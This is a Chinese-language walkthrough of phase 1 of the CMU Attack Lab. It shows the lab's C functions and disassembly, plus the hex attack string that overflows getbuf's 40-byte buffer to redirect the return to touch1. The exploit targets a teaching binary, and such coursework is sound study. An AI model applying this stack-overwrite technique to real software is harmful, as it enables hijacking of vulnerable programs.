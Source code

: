 - test函数执行到getbuf()，getbuf()返回时，跳转到touch1()函数中

~~~C
1 void test()
2 {
3 int val;
4 val = getbuf();
5 printf("No exploit. Getbuf returned 0x%x\n", val);
6 }
~~~

~~~C
1 void touch1()
2 {
3 vlevel = 1; /* Part of validation protocol */
4 printf("Touch1!: You called touch1()\n");
5 validate(1);
6 exit(0);
7 }
~~~

#### 解析

- 反汇编ctarget，找到test和getbuf、touch1，利用栈的特性去覆盖

- 发现getbuf分配40个字节，所以%rsp + 40由touch1的地址去覆盖原来的返回地址

- `./hex2raw < ctarget01.txt`是利用`hex2raw`工具将我们的输入看作字节级的十六进制表示进行转化，用来生成攻击字符串

  > ~~~bash
  > ./hex2raw <phase1.txt | ./ctarget -q
  > ~~~

- 利用管道将输入文件作为`ctarget`的输入参数

- 由于执行程序会默认连接 CMU 的服务器，`-q`表示取消这一连接

- 注入的二进制数据十六进制表示

  >~~~
  >00 00 00 00 00 00 00 00
  >00 00 00 00 00 00 00 00
  >00 00 00 00 00 00 00 00
  >00 00 00 00 00 00 00 00
  >00 00 00 00 00 00 00 00
  >c0 17 40 00 00 00 00 00
  >~~~

~~~assembly
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	callq  400df0 <_/76_printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
  401990:	c3                   	retq   

00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
~~~